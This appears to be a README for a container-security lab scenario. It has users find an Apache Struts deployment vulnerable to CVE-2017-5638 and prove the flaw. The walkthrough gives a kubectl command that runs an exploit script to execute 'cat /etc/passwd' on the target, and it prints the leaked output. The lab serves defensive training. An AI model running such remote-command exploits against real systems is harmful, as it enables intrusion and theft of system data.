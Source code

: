 # Scenario: Runtime Vulnerability Scanning

## Prerequisites

- Vision One connected to your AWS Account
- Playground One ECS Cluster

Ensure to have the EKS Cluster including the Scenarios up and running:

```sh
pgo --apply ecs
```

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the EKS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Overview

This scenario showcases the vulnerability detection functionalities of Vision One Container Security at runtime in ECS clusters. The deployment of this scenario is based on a container image with plenty of different vulnerabilities.

By the end of the scenario, you will understand and learn the following:

- Reviewing vulnerability findings and searching for a specific vulnerability
- Proof the finding by exploitation

## The story

Every now and then new critical vulnerabilities are disclosed. A famous one with huge impact was the  vulnerability CVE-2017-5638. 

On March 6th 2017, a new remote code execution (RCE) vulnerability in Apache Struts 2 was made public. This vulnerability allows a remote attacker to inject operating system commands into a web application through the “Content-Type” header. Written in Java, Apache Struts 2 is the popular open source web application framework. This is yet another incident that adds up to a long list of vulnerabilities in this framework.

You want to search and validate for this specific vulnerability in your production environment.

## Goals

The goal of this scenario is to identify the vulnerable deployment and proof that it is vulnerable.

### Hints

<details>
<summary>Click here</summary>

✨ Didn't find the vulnerable deployment?
<br><br>
Head over to Container Security --> Runtime vulnerability and search for CVE-2017-5638. 🙌
<br><br>

</details>

## Solution & Walkthrough

<details>
<summary>Click here</summary>

Head over to Attack Surface Risk Managemet and search for the vulnerability CVE-2017-5638

Identify the vulnerable deployment/container on the ECS cluster(s)

Find out the load balancer address of the vulnerable service.

In your shell run

```sh
dns_name="<LB ADDRESS>"

kubectl exec -n attackers \
  $(kubectl -n attackers get pods --selector=app=attacker-cve-2017-5638 -o jsonpath='{.items[0].metadata.name}') -- \
  python3 exploit.py "http://${dns_name}" 'cat /etc/passwd'
```

```ascii
[*] CVE: 2017-5638 - Apache Struts2 S2-045
[*] cmd: cat /etc/passwd

b'root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n_apt:x:100:65534::/nonexistent:/usr/sbin/nologin\n'
```

You proofed that the application server of your little todolist application is vulnerable to CVE-2017-5638.

🎉 Success 🎉

</details>
